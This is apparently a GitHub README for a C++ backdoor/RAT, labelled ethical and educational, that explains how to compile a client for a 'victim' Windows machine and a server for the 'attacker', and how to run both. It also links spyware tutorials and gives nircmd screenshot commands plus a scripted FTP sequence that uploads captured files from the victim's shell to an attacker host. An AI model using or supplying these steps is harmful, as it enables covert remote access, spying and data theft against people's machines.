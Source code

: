 # C++ Backdoor/RAT </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes
**by Pol Galvez**

## How to Use</br>
1) **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/bin/client/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```

2)** Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/bin/server/server.exe
```
3) **Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Screenshot:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)
thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Playlist Creating similar RAT<br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs
https://youtu.be/6Dc8i1NQhCM<br>
Easy metasploit spyware:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd command to take screenshots
nircmd.exe savescreenshot screen1.png

## ftp echos to Download files change put for get to Upload (This is done client side on the Shell)
echo open 192.168.1.171> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye

## License
Open Source<br>
**Free Software, Hell Yeah!**
